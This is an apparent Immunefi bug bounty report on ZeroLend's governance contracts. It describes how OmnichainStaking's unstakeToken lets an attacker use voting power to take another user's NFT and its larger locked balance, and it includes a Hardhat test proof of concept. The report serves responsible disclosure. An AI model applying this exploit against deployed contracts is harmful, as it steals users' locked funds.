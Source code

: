 # 29062 - \[SC - Critical] Attacker can steal locked balance of staked nft...

Submitted on Mar 6th 2024 at 04:05:14 UTC by @MahdiKarimi for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29062

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/zerolend/governance

Impacts:

* Direct theft of any user NFTs, whether at-rest or in-motion, other than unclaimed royalties
* Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description

## Brief/Intro

The OmnichainStaking's unstake function allows anyone to unstake any token by just burning associated voting power, since voting power is based on locked balance and lock duration so two different NFTS with different locked balances can have the same amount of power which allows an attacker to exchange an NFT with some locked balance for an NFT with more locked balance and shorter lock duration. The attacker can mint a tokenLocker NFT by locking some tokens for a long duration, stake it at OmnichainStaking to receive voting power, and use minted voting power to Unstake another NFT ( staked by another user ) with more locked balance and shorter lock duration from OmnichainStaking.

## Vulnerability Details

Users can utilize TokenLocker to create a lock by staking a certain amount of Zero tokens for a specified duration. TokenLocker then generates a unique NFT that represents the locked amount and the duration of the lock. Each NFT has a power value, calculated based on the locked amount and duration; more tokens and a longer lock duration contribute to a higher power. Users can stake these NFTs at OmnichainStaking contract and receive voting power proportional to the power of the TokenLocker NFT, OmnichainStaking has an unstakeToken function that allows anyone to unstake a token by burning the amount of voting power associated with that NFT. users can receive the same amount of voting power by locking different amounts of Zero tokens due to different durations, this creates a situation that enables attackers to lock some amount of tokens for a long duration to receive voting power and use that voting power to unstake a tokenLocker NFT with more locked balance and lower lock duration.

Consider the following scenario : 1 - Alice creates a lock with 40 Zero tokens for two years 2 - Alice transfers minted NFT to omnichainStakign to receive voting power 3 - Bob creates a lock with 20 Zero tokens for four years 4 - Alice and Bob would receive the same amount of voting power ( both NFTs have the same power) 5 - Bob Unstakes NFT of Alice from omniChainStaking ( he has enough voting power since both NFTs have minted the same voting power) 6 - Now Bob has an NFT representing 40 tokens locked for two years while he staked 20 tokens for 4 years. 7 - Now Alice is forced to Unstake Bob's NFT which has 20 locked balances and has been locked for 4 years, he lost 20 tokens .

## Impact Details

Attackers can steal the locked balance of other users which is direct theft of funds. Also users can be forced to stake for a longer time.

## References

https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/BaseLocker.sol#L147 https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/BaseLocker.sol#L112-L116 https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/BaseLocker.sol#L362-L364 https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/OmnichainStaking.sol#L68-L70 https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/OmnichainStaking.sol#L76-L79

## Proof of Concept

```
  describe("attacker can drain staked amount of tokenLocker", () => {
    it("attacker can drain staked amount of tokenLocker", async function () {

    // impoerted whale address from goverancne deployment 
    // imported time from hardhat-network-helpers 
    // transferred 20 zero token to whale and 40 zero token to ant address during deployment 
    // removed vesting part from beforeEach 

    let fourYearInSeconds = 124416000;
    let twoYearInSeconds = 62208000;

    // attacker (whale) has 20 Zero tokens
    let balanceOfAttackerBefore = await zero.balanceOf(whale);
    expect(balanceOfAttackerBefore).eq(20n * e18);
    
    // Victim (ant) creates a lock with 40 Zero tokens for duration of 2 years 
    // ant transferrs minted nft to OmnichainStaking and receives power 
    zero.connect(ant).approve(locker.target, 40n * e18);
    await locker.connect(ant).createLock(40n * e18, twoYearInSeconds, false);
    await locker.connect(ant)["safeTransferFrom(address,address,uint256)"](ant.address, omniStaking.target, 1);

    // whale creates a lock with 20 Zero tokens but for duration of 4 years 
    // he transferrs minted nft to OmnichainStaking 
    // despite that he has locked half of ant address but due to more lock duration (2 times of ant) he would receive almost same amount of power 
    zero.connect(whale).approve(locker.target, 20n * e18);
    await locker.connect(whale).createLock(20n * e18, fourYearInSeconds, false);
    await locker.connect(whale)["safeTransferFrom(address,address,uint256)"](whale.address, omniStaking.target, 2);

    // we can assert that whale has more power than ant 
    let balanceWhale = await omniStaking.balanceOf(whale.address);
    let balanceAnt = await omniStaking.balanceOf(ant.address);
    expect(balanceWhale).greaterThanOrEqual(balanceAnt);

    // whale can unstake minted nft of ant from tokenLocker since he has enough power 
    // this nft has two times more lockedBalance 
    await omniStaking.connect(whale).unstakeToken(1);

    // after 2 years he can withdraw this token from locker 
    // Now whale has 40 Zero token balance 
    // so ant address should use his voting power to other token with 20 Zero balance and 4 years of lock duration

    await time.increase(twoYearInSeconds);
    await locker.connect(whale).withdraw(1);
    let balanceOfAttacker = await zero.balanceOf(whale);
    expect(balanceOfAttacker).eq(40n * e18);


    });
    
  });
```
